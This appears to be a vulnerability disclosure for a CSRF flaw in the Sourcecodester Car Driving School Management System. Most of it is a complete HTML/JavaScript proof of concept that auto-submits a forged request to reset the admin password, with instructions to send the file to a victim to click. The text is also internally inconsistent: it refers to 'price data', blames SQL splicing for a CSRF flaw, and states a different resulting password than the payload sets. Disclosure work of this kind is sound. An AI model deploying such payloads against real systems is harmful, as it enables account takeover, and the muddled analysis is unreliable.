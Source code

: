 ### CSRF vulnerability exists in Sourcecodester Online Car Driving School Management System

official website:https://www.sourcecodester.com/php/15070/car-driving-school-management-system-phpoop-free-source-code.html

version:v1.0

route：/cdsms/classes/Users.php?f=save

injection parameter:$_POST['password']

#### 1.Vulnerability analysis

As shown in the figure below, in **admin/user/index.php**, after the front-end sends the modified price data packet through the form, there is a lack of token verification mechanism, and the back-end **user.php** is directly spliced into the SQL update statement, resulting in a CSRF vulnerability. We can change client user data by constructing malicious request packets.

![image-20240725220039349](assets/image-20240725220039349.png)

### ![image-20240725220010565](assets/image-20240725220010565.png)

#### 2.Vulnerability verification and exploit

The construction poc is as follows. Save it as an html file and send it to the victim to click, so that the admin's password can be modified.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/localhost\/cdsms\/classes\/Users.php?f=save", true);
        xhr.setRequestHeader("Accept", "*\/*");
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundary9lB8DAQ89HnxVavv");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundary9lB8DAQ89HnxVavv\r\n" + 
          "Content-Disposition: form-data; name=\"id\"\r\n" + 
          "\r\n" + 
          "1\r\n" + 
          "------WebKitFormBoundary9lB8DAQ89HnxVavv\r\n" + 
          "Content-Disposition: form-data; name=\"firstname\"\r\n" + 
          "\r\n" + 
          "Adminstrator\r\n" + 
          "------WebKitFormBoundary9lB8DAQ89HnxVavv\r\n" + 
          "Content-Disposition: form-data; name=\"lastname\"\r\n" + 
          "\r\n" + 
          "Admin\r\n" + 
          "------WebKitFormBoundary9lB8DAQ89HnxVavv\r\n" + 
          "Content-Disposition: form-data; name=\"username\"\r\n" + 
          "\r\n" + 
          "admin\r\n" + 
          "------WebKitFormBoundary9lB8DAQ89HnxVavv\r\n" + 
          "Content-Disposition: form-data; name=\"password\"\r\n" + 
          "\r\n" + 
          "888888\r\n" + 
          "------WebKitFormBoundary9lB8DAQ89HnxVavv\r\n" + 
          "Content-Disposition: form-data; name=\"img\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary9lB8DAQ89HnxVavv--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
      submitRequest();
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

After clicking on the html file, the password of admin is modified to 666666.

![image-20240725215710402](assets/image-20240725215710402.png)
